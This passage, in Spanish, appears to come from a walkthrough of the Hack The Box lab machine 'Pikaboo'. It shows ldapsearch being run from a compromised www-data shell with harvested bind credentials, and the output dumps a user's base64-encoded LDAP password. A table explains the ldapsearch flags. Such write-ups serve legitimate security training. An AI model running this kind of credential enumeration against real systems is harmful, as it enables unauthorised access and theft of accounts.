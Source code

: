 > \* socket: Un socket es una interfaz de entrada-salida de datos que permite la intercomunicación entre procesos. 
> Los procesos pueden estar ejecutándose en el mismo o en distintos sistemas, unidos mediante una red.
> Un identificador de socket es una pareja formada por una dirección IP y un puerto. 
> Ejemplo: `127.0.0.1:55670`

Y sí, vemos que el servicio de **LDAP** está activo internamente.

Podemos extraer información de este servicio con ayuda de herramientas como `ldapsearch`.

```bash
www-data@pikaboo:/$ which ldapsearch
/usr/bin/ldapsearch
```
Herramienta que además está presente en la máquina.

No se diga más, enumeremos un poco para ver que encontramos:

```bash
www-data@pikaboo:/$ ldapsearch -x -b "dc=pikaboo,dc=htb" -h "127.0.0.1" -p "389" -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w "J~42%W?PFHl]g"

[...]

# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

[...]
```

| Parámetro | Acción |
| `-x` | Especificamos que queremos realizar una autenticación simple |
| `-b <base dn>` | Este parámetro sirve para determinar el [dn base](https://ldap.com/ldap-dns-and-rdns/){:target="\_blank"}{:rel="noopener nofollow"} que es el punto base desde el cual el servidor buscará.
| `-h <host>` | Con esto especifícamos la dirección donde corre el servidor **LDAP** |
| `-p <host>` | Especifica el puerto en el que opera el servidor **LDAP** |
| `-D <binddn>` | Este parámetro se usa para especificar el [bindDN](https://qastack.mx/server/616698/in-ldap-what-exactly-is-a-bind-dn){:target="\_blank"}{:rel="noopener nofollow"} que es como una especie de credencial para autenticarse en el servidor
| `-w <password>` | Especificamos la contraseña, en este caso necesaria, para la autenticación simple |
